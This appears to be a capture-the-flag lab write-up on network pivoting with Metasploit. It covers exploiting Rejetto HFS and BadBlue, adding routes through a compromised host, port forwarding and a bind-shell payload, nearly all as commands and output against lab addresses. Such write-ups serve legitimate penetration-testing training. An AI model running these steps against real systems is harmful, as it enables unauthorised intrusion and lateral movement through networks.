



# 🔬Pivoting

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> - Victim1 IP: `10.2.20.197`
> - VIctim2 IP: `10.2.31.35`
> - **Pivoting** technique with a *network route* to the internal network's subnet

## Enumeration & Exploitation

```bash
ping 10.2.20.197
    PING 10.2.20.197 (10.2.20.197) 56(84) bytes of data.
    64 bytes from 10.2.20.197: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.20.197: icmp_seq=2 ttl=125 time=1.99 ms

ping 10.2.31.35
	PING 10.2.31.35 (10.2.31.35) 56(84) bytes of data.
# No response from Victim2
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
workspace -a Pivoting
db_nmap -sV -p 80 10.2.20.197
	80/tcp open  http  HttpFileServer httpd 2.3
```

```bash
use exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.2.20.197
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
	
ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:58:bb:f0:89:2a
    MTU          : 9001
    IPv4 Address : 10.2.20.197
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::d192:bf14:b3e2:1211
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    
    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:14c5
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Victim2 is on the same Victim1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254` = `10.2.20.0/20`


## Pivoting

- From the attacker's machine, a route through "Victim1 `10.2.20.0/20` machine" is needed, to run MSF modules against Victim2 machine

```bash
run autoroute -s 10.2.20.0/20
```

```bash
[+] Added route to 10.2.20.0/255.255.240.0 via 10.2.20.197

run autoroute -p
```

- Now, subnet `10.2.20.0/20` can be accessed with `MSFconsole`

```bash
background
```

- Scan for open ports on the Victim2 system - `10.2.31.35`

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.31.35
set PORTS 1-100
run
```


- 📌 The route is only applicable to `MSFconsole`, not outside of it

## Port Forwarding

- To perform an `nmap` scan on Victim2, **a port forwarding need to be set up**.
  - **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the Victim2 service

```bash
sessions 1
```

```bash
portfwd add -l 1234 -p 80 -r 10.2.31.35
	[*] Local TCP relay created: :1234 <-> 10.2.31.35:80

background
```

```bash
db_nmap -sS -sV -p 1234 localhost
```



- Exploit Victim2 target machine

```bash
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.31.35
set LPORT 4433
run
```



```bash
background
sessions
```



------


